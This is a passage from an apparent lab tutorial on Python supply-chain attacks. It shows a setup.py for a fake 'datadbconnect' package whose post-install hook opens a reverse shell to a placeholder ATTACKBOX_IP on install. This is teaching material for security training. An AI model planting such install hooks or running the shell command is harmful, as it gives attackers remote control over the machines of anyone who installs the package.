 ```python
        description=('''Dataset Connection Package '''
                  '''that can be used internally to connect to data sources '''),
)
```

In order to inject code execution, we need to ensure that the package executes code once it is installed. Fortunately, setuptools, the tooling we use for building the package, has a built-in feature that allows us to hook in the post-installation step. This is usually used for legitimate purposes, such as creating shortcuts to the binaries once they are installed. However, combining this with Python's os library, we can leverage it to gain remote code execution. Update your setup.py file with the following:

```python
from setuptools import find_packages
from setuptools import setup
from setuptools.command.install import install
import os
import sys

VERSION = 'v9000.0.2'

class PostInstallCommand(install):
     def run(self):
         install.run(self)
         print ("Hello World from installer, this proves our injection works")
         os.system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKBOX_IP",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\'')

setup(
        name='datadbconnect',
        url='https://github.com/labs/datadbconnect/',
        download_url='https://github.com/labs/datadbconnect/archive/{}.tar.gz'.format(VERSION),
        author='Tinus Green',
        author_email='tinus@notmyrealemail.com',
        version=VERSION,
        packages=find_packages(),
        include_package_data=True,
        license='MIT',
        description=('''Dataset Connection Package '''
                  '''that can be used internally to connect to data sources '''),
        cmdclass={
            'install': PostInstallCommand
        },
)
```

Let's take a look at the adjustments that we made. Firstly, we imported the install library from setuptools and the os library:

```python
from setuptools.command.install import install
import os
import sys
```
